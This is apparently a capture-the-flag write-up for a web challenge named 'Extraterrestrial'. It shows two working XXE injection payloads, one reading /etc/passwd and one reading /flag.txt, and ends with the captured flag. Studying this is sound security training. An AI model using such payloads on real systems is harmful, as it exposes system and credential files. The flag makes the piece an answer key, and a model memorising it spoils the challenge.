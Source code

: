 # Extraterrestrial

Points : 125

## Solution

Since the title hints at XXE, we can try injecting a payload into the textbox. This is resource cam ein handy : <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection>. We can first try to read data from /etc/passwd using the following payload :

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

Since that works, I just assumed there would be a flag.txt file in the root directory and I tried reading it using this payload and voila!

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///flag.txt'>]><root>&test;</root>
```

Flag : `flag{extraterrestrial_extra_entities}`
